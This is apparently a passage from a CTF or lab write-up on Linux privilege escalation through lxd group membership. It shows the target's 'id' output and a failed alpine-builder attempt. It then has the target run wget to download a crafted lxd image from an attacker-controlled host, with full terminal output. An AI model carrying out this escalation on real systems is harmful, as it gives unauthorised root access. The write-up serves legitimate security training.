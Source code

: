 ```
john@exploitable:~$ id
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

Add "always checking groups with `id`" to privesc enum process

Google `lxd privilege escalation` for more informations

Seriously if it sounds easy you better check [here](https://0x44696f21.wordpress.com/2020/08/18/building-lxd-containers-on-kali/) and you might end up [here](https://linuxcontainers.org/distrobuilder/introduction/) 

and [here](https://github.com/lxc/distrobuilder) XD


I had issues with `alpine-builder`
```
Downloading apk-tools-static-2.12.7-r3.apk
tar: Le mot clé inconnu « APK-TOOLS.checksum.SHA1 » pour l'en-tête étendu a été ignoré
tar: Le mot clé inconnu « APK-TOOLS.checksum.SHA1 » pour l'en-tête étendu a été ignoré
ERROR: checksum is missing for alpine-devel@lists.alpinelinux.org-6165ee59.rsa.pub
Failed to download a valid static apk
```
So I had to use `distrobuilder`

Next we fire up a python server in `build` folder

Then grab the files on target machine

```
john@exploitable:/tmp$ wget http://10.8.226.203/lxd.tar.xz
--2021-12-02 18:21:12--  http://10.8.226.203/lxd.tar.xz
Connecting to 10.8.226.203:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 424 [application/x-xz]
Saving to: ‘lxd.tar.xz’

lxd.tar.xz                                                 100%[========================================================================================================================================>]     424  --.-KB/s    in 0s      

2021-12-02 18:21:14 (71.3 MB/s) - ‘lxd.tar.xz’ saved [424/424]

john@exploitable:/tmp$ wget http://10.8.226.203/rootfs.squashfs
--2021-12-02 18:21:34--  http://10.8.226.203/rootfs.squashfs
Connecting to 10.8.226.203:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1798144 (1.7M) [application/octet-stream]
Saving to: ‘rootfs.squashfs’

rootfs.squashfs                                            100%[========================================================================================================================================>]   1.71M  49.1KB/s    in 32s     

2021-12-02 18:22:06 (54.8 KB/s) - ‘rootfs.squashfs’ saved [1798144/1798144]
```
Import the image on target machine as mymnimal
